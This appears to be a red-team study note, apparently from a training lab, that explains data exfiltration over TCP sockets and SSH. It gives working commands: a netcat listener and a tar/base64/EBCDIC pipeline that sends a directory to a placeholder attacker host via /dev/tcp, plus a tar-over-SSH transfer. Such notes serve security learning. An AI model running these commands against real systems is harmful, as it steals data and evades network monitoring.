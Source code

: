 Data exfiltration is a technique that we can perform to transfer data without being detected. It is used to emulate the normal network activities, and it relies on network protocols such as DNS, HTTP, SSH, etc. Data exfiltration over common protocols is challenging to detect and distinguished between legitimate and malicious traffic. 
Some protocols are not designed to carry data over them. However, threat actors find ways to abuse these protocols to bypass network-based security products such as a firewall. Using these techniques as a red teamer is essential to avoid being detected.


# TCP socket
One of the data exfiltration techniques that we may use in a non-secured environment, where we know there are no network-based security products. If we are in a well-secured environment, then this kind of exfiltration is not recommended, as it is **easy to detect** because we rely on non-standard protocols.
Besides the TCP socket, we'll also use data encoding and archiving. Making it harder to examine.
![[Pasted image 20240624155813.png]]
To start, we need to prepare a listener on our machine
```bash
nc -lnvp 8080 > /tmp/creds.data
```
We will be sending all the data we find to a file called `creds.data`. After that, inside the target machine we will use TCP to exfiltrate it.
```bash
tar zcf - ./ | base64 | dd conv=ebcdic > dev/tcp/ATTACK_IP/8080
```
Here, we are using the `tar` command with the `zcf` arguments to create a new (`c`) gzip to compress the selected folder (`z`) of the content of our current directory (`f - /`). We then base64 the output and create and copy a backup file with the `dd` command using EBCDIC encoding data. Finally, we redirect the `dd` command's output to transfer it using the TCP socket on the specified IP and port.
Now, we need to unencrypt our files
```bash
dd conv=ascii if=creds.data | base64 -d > creds.tar
```
In here we use the `dd` command to convert the received file to ASCII. And then decrypt the base64 to then pipe it into a `.tar` file. To decompress that `tar` we just use
```bash
tar xvf creds.tar
```
Where we extract the tar file (`x`), use verbose to list files (`v`) and to select a file (`f`).
Now we can check the files that we have borrowed.

# SSH
SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission is encrypted over the network.
![[Pasted image 20240624195841.png]]
To transfer data over SSH, we can use either the Secure Copy Protocol (`SCP`) or the SSH client. Let's asume that we don't have the `SCP` command available to transfer data over SSH. Thus, we will only use the SSH client.
Similar to the TCP transfer we will use `tar`
```bash
tar zcf - ./ | ssh user@IP "cd /tmp/; tar zxvf -"
```
The difference here being, that we won't have the need to encrypt our data, as SSH already does that for us, and in a more secure manner. Then we passed the compressed file over the SSH, which provides a way to execute a single command without having a full session, and that command being the one inside quotes, which moves the data over to `/tmp/` and decompresses it.
 